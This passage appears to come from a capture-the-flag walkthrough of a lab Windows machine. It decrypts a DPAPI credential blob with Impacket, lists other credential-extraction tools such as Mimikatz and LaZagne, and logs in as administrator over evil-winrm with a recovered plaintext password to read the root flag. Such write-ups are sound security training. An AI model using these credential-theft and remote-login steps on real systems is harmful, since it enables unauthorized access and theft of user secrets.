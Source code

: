4. Decrypt the credential blob:
```bash
python3 /usr/share/doc/python3-impacket/examples/dpapi.py credential -k <MasterKey> -f credential_blob
```

![Credential Decryption](/assets/decryptmasterkey.png)

### 🔄 Alternative Tools for DPAPI Exploitation
> **Note:** Instead of using Impacket's DPAPI tools, you could try:
> - [Mimikatz](https://github.com/gentilkiwi/mimikatz) - For direct credential extraction
> - [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI) - For .NET-based extraction
> - [DPAPIck](https://github.com/jordanbtucker/dpapick) - For Python-based extraction
> - [LaZagne](https://github.com/AlessandroZ/LaZagne) - For automated extraction

### Final Privilege Escalation
1. Use the administrative credentials that we found after decrypting the keys:
```bash
evil-winrm -i 10.10.11.70 -u steph.cooper_adm -p FivethChipOnItsWay2025!
```

2. Navigate to the administrator's desktop to find the root flag.

## 🏆 Root Flag Pwned! 🏆
```
type C:\Users\steph.cooper_adm\Desktop\root.txt
```
